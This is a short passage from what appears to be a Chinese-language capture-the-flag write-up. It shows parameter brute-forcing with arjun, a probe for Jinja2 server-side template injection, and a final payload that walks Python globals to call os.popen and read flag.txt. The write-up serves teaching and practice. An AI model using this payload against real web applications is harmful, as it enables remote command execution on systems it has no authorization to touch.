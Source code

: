 再试试**参数爆破**, 这里用到的工具是 arjun;

```bash
pip install arjun
```

![55-2.png](55-2.png)

爆出参数: `name`; 测试有没有经典的 SSTI

```
/?name={{'7'*7}}
```

![55-3.png](55-3.png)

确认存在, 接下来就好办了; 调整一下发现没有严格过滤, 最终 payload:

```
/?name={{self.__init__.__globals__.__builtins__['__import__']('os').popen('cat flag.txt').read()}}
```

![55-4.png](55-4.png)
